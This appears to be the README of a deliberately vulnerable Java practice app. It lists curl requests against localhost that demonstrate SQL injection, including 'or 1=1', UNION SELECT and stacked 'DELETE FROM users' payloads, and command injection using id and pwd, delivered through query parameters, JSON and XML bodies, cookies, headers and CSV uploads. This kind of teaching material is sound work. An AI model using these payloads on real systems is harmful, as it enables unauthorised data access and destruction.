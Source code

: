 # Vulnerable

## Deploy

```bash
rm vulnerable.jar
wget https://github.com/michalszalkowski/vulnerable/raw/master/vulnerable.jar
java -jar vulnerable.jar
```

## SQL Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "name=michal" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' or 1=1 -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' UNION SELECT * FROM config -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\' or 1=1-- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\'/**/or/**/1=1/**/-- -" http://localhost:8080/vun/sql/example1/1/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal' or 1=1 -- -"
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal</filter></filters>"  
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal' or 1=1 -- -</filter></filters>"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file.csv
echo "\"michal\",\"hacker'); DELETE FROM users; -- -\"" >> /tmp/file.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/sql/example7/1/ --form file="@/tmp/file.csv"
```

## CMD Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "cmd=id" http://localhost:8080/vun/cmd/example1/1/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/cmd/example2/1/ -H "Content-Type: application/json" -d "{\"filter\": \"pwd\"}"  
curl -X POST http://localhost:8080/vun/cmd/example2/2/ -H "Content-Type: application/json" -d "{\"filter\": \"pwd\"}"  
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/cmd/example3/1/ -H "Content-Type: application/xml" -d "<filters><filter>pwd</filter></filters>"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/cmd/example4/1/ --cookie "cmd=pwd"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/cmd/example5/1/ -H "X-Filter:pwd"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file2.csv
echo "\"michal\",\"pwd\"" >> /tmp/file2.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/cmd/example6/1/ --form file="@/tmp/file2.csv"
```
